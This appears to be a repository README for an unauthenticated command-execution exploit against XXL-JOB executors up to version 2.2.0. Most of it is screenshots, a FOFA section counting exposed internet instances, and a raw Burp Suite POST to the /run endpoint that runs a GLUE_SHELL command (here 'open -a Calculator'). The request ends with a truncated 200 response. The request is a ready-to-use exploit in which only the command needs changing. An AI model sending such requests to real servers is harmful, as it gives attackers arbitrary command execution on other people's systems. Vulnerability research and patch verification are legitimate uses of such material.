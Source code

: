 ```

`XXL-JOB <= 2.2.0`

![](./xxl-job.gif)

![](04.png)

## fofa 外网资产统计

![](./fofa.png)

![](01.png)
![](02.png)
![](03.png)
![](05.png)

## Burpsuite

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Content-Length: 365
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "open -a Calculator",
  "glueUpdatetime": 1586629003727,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

```
HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 12
